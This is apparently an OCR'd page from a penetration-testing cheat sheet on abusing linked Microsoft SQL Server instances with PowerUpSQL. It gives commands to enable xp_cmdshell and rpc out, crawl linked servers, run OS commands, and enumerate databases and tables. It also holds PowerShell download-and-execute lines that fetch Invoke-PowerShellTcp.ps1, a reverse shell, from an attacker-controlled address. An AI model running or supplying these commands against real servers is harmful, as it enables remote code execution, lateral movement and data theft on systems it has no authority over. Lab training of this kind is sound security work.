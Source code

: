 ```mssql
EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT "eu-sql"
```

-   If **rpcout** is disabled but we are **sa**, it can be enabled with

```mssql
EXEC sp_serveroption 'LinkedServer', 'rpc out', 'true';
```

#### Methodology/Steps

>   1.  Check the SQL Server link
>   2.  Keep note if you have link to any other database in **DatabaseLinkName**
>   3.  If SysAdmin:0 means that we will not be allowed to enable **xp_cmdshell**
>   4.  Keep on enumerating and check all the linked databases you have access to
>   5.  Now we can try to execute commands through out all the linked databases found

------

##### PowerUpSQL [ Abusing the privileges ]

```powershell
# 1. Enumerate SQL Server links
Get-SQLServerLink -Instance <instanceName> -Verbose
select * from master..sysservers

# 2. Enumerate DB links
Get-SQLServerLinkCrawl -Instance dcorp-mysql -Verbose
select * from openquery("<instanceName>",'select * from openquery("<linkedInstance>",''select * from master..sysservers'')')

# 3. Execute commands on target server
Get-SQLServerLinkCrawl -Instance dcorp-mysql -Query "exec master..xp_cmdshell 'whoami'" | ft

# 4. Download file on target server
Get-SQLServerLinkCrawl -Instance <instanceName> -Query 'exec master..xp_cmdshell "powershell -c iex (new-object net.webclient).downloadstring(''http://IP:8080/Invoke-HelloWorld.ps1'',''C:\Windows\Temp\Invoke-HelloWorld.ps1'')"'

Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query 'exec master..xp_cmdshell "powershell iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.21/Invoke-PowerShellTcp.ps1'')"'
```

## Extra Commands

##### Basic SQL Server queries for DB enumeration

Also works with **Get-SQLServerLinkCrawl**

```powershell
# View all db in an instance
Get-SQLQuery -Instance <instanceName> -Query "SELECT name FROM sys.databases"

# View all tables
Get-SQLQuery -Instance <instanceName> -Query "SELECT * FROM dbName.INFORMATION_SCHEMA.TABLES" 

# View all cols in all tables in a db
Get-SQLQuery -Instance <instanceName> -Query "SELECT * FROM dbName.INFORMATION_SCHEMA.columns"

# View data in table
Get-SQLQuery -Instance <instanceName> -Query "USE dbName;SELECT * FROM tableName"

# Enumerate linked servers
select * from master..sysservers

# Openquery function can be used to run queries on a linked database
select * from openquery("192.168.X.Y",'select * from master..sysservers')
```